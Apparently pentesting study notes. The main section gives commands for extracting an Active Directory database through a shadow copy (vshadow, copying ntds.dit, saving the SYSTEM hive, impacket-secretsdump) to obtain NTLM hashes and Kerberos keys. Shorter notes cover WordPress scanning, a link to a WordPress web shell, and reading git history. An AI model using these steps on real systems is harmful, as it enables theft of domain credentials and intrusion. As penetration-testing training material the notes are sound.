 ### Shadow Copies
Launch an elevated command prompt and run the **vshadow** utility.
```powershell
vshadow.exe -nw -p  C:
```
Copy the whole AD Database from the shadow copy to the **C:** drive root folder by specifying the _shadow copy device name_ and adding the full **ntds.dit** path.
```powershell
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```
Save the SYSTEM hive from the Windows registry:
```powershell
reg.exe save hklm\system c:\system.bak
```
Move the `.bak` file to our Kali machine.  Extracting credential materials with the `secretsdump`.
```powershell
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```
Obtain NTLM hashes and Kerberos keys for every AD user. -> crack/pass-the-hash attacks.

# Other Notes:
## Notes to take when pentesting
```
creds.txt
username.txt
password.txt
computer.txt
host1
	- hash1
	- hash2
	- port.nmap
host2
	- hash1
	- port.nmap
```
Folder: `host1`,`host2` ...
## Wordpress
Scan:
```bash
wpscan --url http://192.168.50.244 --enumerate p --plugins-detection aggressive -o websrv1/wpscan
```
[wordpress-shell](https://github.com/leonjza/wordpress-shell)
## Git
```bash
git status
git log
```
get the git id then 
```bash
git show [id]
```
